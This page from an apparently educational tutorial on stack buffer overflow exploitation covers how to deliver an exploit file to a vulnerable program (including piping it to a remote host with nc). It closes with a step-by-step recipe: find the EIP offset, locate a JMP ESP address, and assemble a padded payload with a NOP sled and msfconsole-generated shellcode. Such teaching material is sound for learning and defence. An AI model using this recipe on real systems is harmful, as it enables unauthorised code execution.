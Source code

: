**Sending the exploit to the program**

The functions and methods used in the program will dictate how the send the exploit to the
program. Once the exploit is generated, sending the exploit to the vulnerable program must be
done in a way to ensure that the raw binary isn’t altered as it is passed to the vulnerable input of
the program.

The function gets() accepts its input from standard input. The fgets() can get its input from any
file descriptor including standard input. Functions such as strcat() and strcpy() append or copy
from one buffer to another up until the terminating null byte so the source string can come from a
variety of methods.

If the vulnerable input to the program accepts its input via standard input, then redirection is the
way to get the exploit to the program.

```
vulnerable-program < exploit-file
```
If the vulnerable input to the program is taken from a command line argument, then it can be
passed using the following in bash:

```
vulnerable-program $(cat exploit-file)
```
If the vulnerable input to the program is taken from a via a network socket, then it can be passed
using the following in bash:


```
cat exploit-file | nc IP-address port
```
These are only a few typical examples of getting the exploit to the vulnerable program.

## Cliff notes

1. Crash program (Find number of characters that will crash program)
2. Find offset for EIP (pattern create <number higher than crash>; pattern offset <characters in EIP>)
3. Crash program in gdb with no environment variables (show env, unset env)
4. Info proc map - lists memory addresses as the program has loaded
5. Find JMP ESP instruction - find /b <memory start address after heap>, <memory end address before stack>, 0xff, 0xe4 (JMP ESP instruction; copy first couple of addresses
6. Edit exploit.py:  
   buff = "A" * <offset found in 2>  
   EIP = <JMP ESP instruction in reverse order>, i.e. 0xf7de3b59 will be '\x59\x3b\xde\xf7'  
   nop = '\x90' * 5  
7. Create shellcode based on your objective:  
   msfconsole; use <insert appropriate exploit here>; show options; set <option> <option setting>; generate -b "<insert bad bytes here>, <more bad bytes>" -f python  
8. Add shellcode to python script as buf; print(offset + EIP + nop + buf)
9. <binary name> <<< $(python exploit.py)
